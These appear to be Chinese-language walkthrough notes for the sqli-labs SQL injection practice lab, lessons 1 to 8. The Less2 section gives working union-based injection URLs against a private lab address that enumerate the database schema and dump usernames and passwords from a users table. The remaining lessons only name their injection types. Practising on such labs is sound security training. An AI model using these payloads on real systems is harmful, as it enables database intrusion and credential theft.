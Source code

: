 #### Less1

**类型**：基于报错的 字符型 联合注入

#### Less2

**类型**：基于报错的 数字型 联合注入

http://192.168.170.128/sql/Less-2/?id=1

http://192.168.170.128/sql/Less-2/?id=1'

http://192.168.170.128/sql/Less-2/?id=1"

http://192.168.170.128/sql/Less-2/?id=1 union select 1,concat_ws(',',@@datadir,@@version_compile_os,version(),user(),database()),3 order by 1--+

-- 判断注入点和注入类型

http://192.168.170.128/sql/Less-2/?id=1 union select 0,group_concat(schema_name),3 from information_schema.schemata order by 1--+

http://192.168.170.128/sql/Less-2/?id=1 union select 0,group_concat(table_name),3 from information_schema.tables where table_schema='security' order by 1--+

http://192.168.170.128/sql/Less-2/?id=1 union select 0,group_concat(column_name),3 from information_schema.columns where table_name='users' order by 1--+

-- 三板斧

http://192.168.170.128/sql/Less-2/?id=1 union select 0,group_concat(username),3 from security.users order by 1--+

http://192.168.170.128/sql/Less-2/?id=1 union select 0,concat_ws(';',group_concat(username),group_concat(password)),3 from security.users order by 1--+

-- 爆库

#### Less3

#### Less4

和Less1类似，只不过sql语句在查询时在条件id=后的内容用括号或者其他字符括起来。注意括号在引号内部还是外部。

#### Less5

* **类型**：盲注 三种类型的盲注都可以实现

#### Less6

与Less5类似

#### Less7

* **类型**：基于file权限的注入

#### Less8

* **类型**：盲注 基于布尔或者时间的注入
